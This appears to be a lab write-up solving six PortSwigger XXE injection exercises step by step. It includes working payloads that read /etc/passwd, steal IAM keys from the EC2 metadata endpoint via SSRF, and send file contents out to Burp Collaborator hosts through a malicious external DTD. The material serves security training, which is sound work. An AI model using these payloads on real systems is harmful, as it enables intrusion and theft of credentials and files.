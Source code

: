 # XML External Entity (XXE) injection

## Lab 1: Exploiting XXE using external entities to retrieve files

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file

### Sol :

* Click `check stock` button and intercept the request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/cb985550-dc41-473f-bd2f-39d16da37bc2)

* Give the below payload between the XML declaration and `stockcheck` element.

      <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

* Replace the `productID` with `&xxe;`

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/5f826b3e-8fdc-4d27-8692-a3656cde0dba)

* Forward the request. We will get the `passwd` file
* Thus, the lab is solved.

## Lab 2: Exploiting XXE to perform SSRF attacks

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

### Sol :

* Click `check stock` button and intercept the request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/d3bb9191-7155-4b48-8e75-6714d1ea5ecd)

* Give the below payload between the XML declaration and `stockcheck` element.

      <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>

* Replace the `productID` with `&xxe;`

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/cb1bcdbc-db7b-452b-beb8-3ae06eac84e8)

* Forward the request. We will obtain the server's IAM secret access key from the EC2 metadata endpoint.
* Thus, the lab is solved.

## Lab 3: Blind XXE with out-of-band interaction

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator

### Sol :

* Click `check stock` button and intercept the request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/77c4c68d-69c0-4628-88f8-37d08cb2278c)

* Give the below payload between the XML declaration and `stockcheck` element and your own Burp Collaborator payload.

      <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://8enq6m2m8qzud1x82itu68s9a0gr4hs6.oastify.com"> ]>

* Replace the `productID` with `&xxe;`

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/717b869f-17ec-4577-9cf1-d32b92ebb7b3)

* Forward the request, we will get that lab is solved.

## Lab 4: Blind XXE with out-of-band interaction via XML parameter entities

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

### Sol :

* Click `check stock` button and intercept the request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/77c4c68d-69c0-4628-88f8-37d08cb2278c)

* Give the below payload between the XML declaration and `stockcheck` element and your own Burp Collaborator payload.

      <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://yuw9ydysol5e9y6vowhoq7umpdv4jv7k.oastify.com"> %xxe; ]>

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/16265929-1738-412d-808f-30dc54ea3f41)

* Forward the request, we will get that lab is solved.

## Lab 5: Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

### Sol :

* Click `check stock`, Intercept the request and send it to the repeater.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/1fdc3ff1-6307-4364-ab33-b019b34f3597)

* Go to `Exploit Server` and create a `dtd` payload of below:

      <!ENTITY % file SYSTEM "file:///etc/hostname">
      <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
      %eval;
      %exfil;

* Replace the `BURP-COLLABORATOR-SUBDOMAIN` with your own collaborator payload.
* Save this payload with .dtd extension
* Store the payload and click `View exploit` and take a note of URL.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/574bc151-ecfc-4e52-9ad9-ead0564cf9c3)

* Give below payload as external entity definition in between the XML declaration and the `stockCheck` element by giving your own DTD URL.

      <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/608286ee-387a-4062-840a-9f69b9754dde)

* Go to `Burp Collaborator` and see the `HTTP` request.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/338bcfe1-c2d9-4e4b-ba2c-6209faea1a56)

* Enter the `x` code to solve the lab. Thus, the lab is solved.

## Lab 6: Exploiting blind XXE to retrieve data via error messages

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

### Sol :

* Click `check stock`, Intercept the request and send it to the repeater.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/1fdc3ff1-6307-4364-ab33-b019b34f3597)

* Give the below payload as external entity definition in between the XML declaration and the stockCheck element by giving your own DTD URL.

        <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/884e11b1-b0fa-4180-a40d-9676e111d0da)

* Go to exploit server and give the below payload and save it as `dtd` file.

        <!ENTITY % file SYSTEM "file:///etc/passwd">
        <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
        %eval;
        %exfil;
  
* Click `store` and `View exploit`. Note the URL and give it to the external tag.

![image](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/d0839d65-60d6-436c-aa60-711ccab79fdd)

* We got the `passwd` file and lab is solved.
